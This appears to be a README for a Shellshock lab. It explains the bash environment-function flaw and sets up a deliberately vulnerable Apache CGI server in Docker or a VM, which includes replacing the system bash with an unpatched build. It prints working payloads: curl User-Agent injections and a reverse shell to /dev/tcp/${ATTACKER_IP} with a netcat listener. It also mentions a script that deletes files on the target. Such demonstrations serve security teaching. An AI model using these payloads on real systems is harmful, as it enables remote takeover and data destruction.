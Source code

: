 # Shellshock (CVE-2014-6271)

## How it works

Before shellshock, bash allowed function definitions for their environment variables. For example

```bash
set X=() { echo 'Inside func' }
echo $X # 'Inside func'
```

However, the way it handled processing of function definition is incredibly unsecure

```c
/* Initialize the shell variables from the current environment.
   If PRIVMODE is nonzero, don't import functions from ENV or
   parse $SHELLOPTS. */
void
initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
  [...]
  for (string_index = 0; string = env[string_index++]; )
    {

      [...]
      /* If exported function, define it now.  Don't import functions from
     the environment in privileged mode. */
      if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
      {
        [...]
        parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
        [...]
      }
}
```

While looping through environment variables being set, the only check for a function definition is a simple string comparison of the first 4 characters in `STREQN("() {", string, 4)`. If it matches, the string will be passed to `parse_and_execute()` where it is run as a regular bash command.

This would work in a trusted setting when the code was written but not so much if bad actors could set variable values. To exploit this, attackers will need to know software that uses bash to set environment variables during runtime, with user input.

## Exploits

A simple exploit is running 

```bash
env X='() { :; }; echo "pwned"' bash -c :
```

This sets X to be `() { :; }; echo "pwned"` then starts bash. When bash starts it will handle all environment variables including `X` and should echo `pwned`. Then executes `:` which is just a `NOP` instruction.

Another such exploit is with web servers that use CGI, where it copies of bunch of header information into environment variables for CGI scripts to use, such as `HTTP_USER_AGENT`, `HTTP_ACCEPT_ENCODING` and `REMOTE_PORT`.

The attacker will know that their `User-Agent` header will be used in bash and it is a mutable value in their HTTP request. If they know the server uses CGI, they have a possible target.

## Docker Setup

For basic bitches, create a docker image with the built in Dockerfile, it'll setup everything for you. Ensure to change the demo examples to use port 8080 or whichever was exposed for the container. Ensure you are in the `shellshock` directory.

```bash
    docker build -t vuln-apache2-cgi .
    docker run -d -p 8080:80 --name shellshock-demo vuln-apache2-cgi
```

You should be able to access `http://localhost:8080/cgi-bin/info.cgi` and it will return your browser's user agent.

Now if you run `python attack.py` then access `http://localhost:8080/cgi-bin/info.cgi`, the `super-impt-stuff` directory and all its contents will be deleted and will return `Taken Over` to the client.

## VM Setup

A modern Linux distribution will be used and replacing the bash executable that comes with it with the unpatched one instead of installing an old distro release because

- Many distros have been quietly patched and it's unclear if it will have an unpatched bash executable
- Trying out some old Ubuntu versions resulted in network issues with Hyper-V which I'm too lazy to sort out

1. Install Ubuntu VM (Ubuntu Server 22.04.3 was used for writing) or use WSL on Windows and when finished

    ```bash
        # Install necessary packages
        sudo apt update && sudo apt upgrade -y
        sudo apt install gcc make
    ```

2. Setup vulnerable bash version (4.3.0 in this case)

    ```bash
        # Start at your home directory (eg. /home/benjababe/)
        cd ~

        # Download and extract bash source
        wget https://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz
        tar -xf bash-4.3.tar.gz

        # Build the vulnerable bash
        cd bash-4.3
        ./configure --bindir=/home/${USER}/bash-4.3
        make

        # Ensure it's properly compiled
        ./bash --version

        # Replace the default bash with the vulnerable one
        sudo mv /bin/bash /bin/bash_bak
        sudo cp ./bash /bin/bash

        # Check to see the global bash is the vulnerable one
        bash --version
    ```

3. Setup Apache following instructions [here](https://github.com/jeholliday/shellshock#apache-cgi).
4. Copy the files in `cgi-bin` of the repository to `/usr/lib/cgi-bin/` of the Linux instance.
5. If Apache server is running properly (Retrieve the IP with `ip a` and type it onto your host, it should show the default Apache2 page), setup the CGI files.

    ```bash
    cd /usr/lib/cgi-bin/
    sudo chmod +x *
    sudo ./setup.sh
    ```

6. Now if you run `python attack.py` then access `${VM_IP}/cgi-bin/info.cgi`, the `super-impt-stuff` directory and all its contents will be deleted.


## Reverse Shell

### Prerequisites

- A seperate instance of Linux (the attacker) apart from the vulnerable VM, Windows does not support bash

### Steps

1. Ensure the Apache2 CGI vulnerability is working by running on the attacker

    ```bash
    # vm: curl -A "() { :; }; echo Content-Type: text/plain; echo; echo Vulnerable;" 172.27.12.218/cgi-bin/test.cgi
    # docker: curl -A "() { :; }; echo Content-Type: text/plain; echo; echo Vulnerable;" http://localhost:8080/cgi-bin/test.cgi

    curl -A "() { :; }; echo Content-Type: text/plain; echo; echo Vulnerable;" ${VM_IP}/cgi-bin/test.cgi
    ```

2. On a separate terminal instance of the attacker, start listening to one of its available ports using `netcat`

    ```bash
    nc -lvp 11111
    ```

3. To get the reverse shell, run the following on the attacker

    ```bash
    # vm: curl -A "() { :; }; /bin/bash -i >& /dev/tcp/172.27.10.188/11111 0>&1" 172.27.12.218/cgi-bin/test.cgi
    # docker: curl -A "() { :; }; /bin/bash -i >& /dev/tcp/192.168.1.171/11111 0>&1" http://localhost:8080/cgi-bin/test.cgi

    curl -A "() { :; }; /bin/bash -i >& /dev/tcp/${ATTACKER_IP}/${NETCAT_PORT} 0>&1" ${VM_IP}/cgi-bin/test.cgi
    ```

4. The terminal instance of `netcat` should now have shell access of the vulnerable system, with user control of whomever is in charge of apache (`www-data` by default, check with `whoami`).


## In-depth Reading

- https://security.stackexchange.com/questions/68168/is-there-a-short-command-to-test-if-my-server-is-secure-against-the-shellshock-b

- https://github.com/jeholliday/shellshocka